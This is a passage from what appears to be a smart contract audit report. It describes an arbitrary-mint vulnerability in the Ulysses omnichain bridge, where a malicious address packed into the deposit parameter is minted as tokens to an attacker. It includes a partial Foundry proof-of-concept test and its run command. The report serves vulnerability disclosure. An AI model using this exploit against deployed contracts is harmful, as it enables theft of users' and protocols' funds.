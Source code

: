 Now back to `bridgeIn(...)` in RootBridgeAgent we get the `globalAddress` for `_dParams.hToken` (again this is the valid `hToken[0]` address from Branch Chain) and `bridgeToRoot(...)` is called that resides in `RootPort.sol`. 

```solidity
		//Get global address
    address globalAddress = IPort(localPortAddress).getGlobalTokenFromLocal(_dParams.hToken, _fromChain);

    //Check if valid asset
    if (globalAddress == address(0)) revert InvalidInputParams();

    //Move hTokens from Branch to Root + Mint Sufficient hTokens to match new port deposit
    IPort(localPortAddress).bridgeToRoot(_recipient, globalAddress, _dParams.amount, _dParams.deposit, _fromChain);
```

`bridgeToRoot(...)` will check if the `globalAddress` is valid and it is since we got it from the valid `hTokens[0]` entry in the constructed attack. Then `_amount - _deposit = 0` , therefore, no tokens will be transferred and finally the critical line `if (_deposit > 0) mint(_recipient, _hToken, _deposit, _fromChainId)` here `_deposit` is the malicious address payload that was packed to bytes and then unpacked and cast to `uint256` & `_hToken` is the global address that we got from `hTokens[0]` back in the unpacking, therefore whatever the value of the `uint256` representation of the malicious address is will be minted to the attacker.

### Coded PoC

Copy the two functions `testArbitraryMint` & `_prepareAttackVector` in `test/ulysses-omnichain/RootTest.t.sol`  and place them in the `RootTest` contract after the setup. 

Execute with `forge test --match-test testArbitraryMint -vv` 

Result - 800000000 minted tokens for free in attacker’s Virtual Account 

```solidity
function testArbitraryMint() public {
        
        // setup function used by developers to add local/global tokens in the system
        testAddLocalTokenArbitrum();

        // set attacker address & mint 1 ether to cover gas cost
        address attacker = address(0xAAAA);
        hevm.deal(attacker, 1 ether);
        
        // get avaxMockAssetHtoken global address that's on the Root
        address globalAddress = rootPort.getGlobalTokenFromLocal(avaxMockAssethToken, avaxChainId);
    
        // prepare attack vector
        bytes memory params = "";
        DepositMultipleInput memory dParams = _prepareAttackVector();
        uint128 remoteExecutionGas = 200_000_000_0;

        console2.log("------------------");
        console2.log("------------------");
        console2.log("ARBITRARY MINT LOG");

        console2.log("Attacker address", attacker);
        console2.log("Avax h token address",avaxMockAssethToken);
        console2.log("Avax underlying address", address(avaxMockAssetToken));

        console2.log("Attacker h token balance", ERC20hTokenBranch(avaxMockAssethToken).balanceOf(attacker));
        console2.log("Attacker underlying balance", avaxMockAssetToken.balanceOf(attacker));

        // execute attack
        hevm.prank(attacker);
```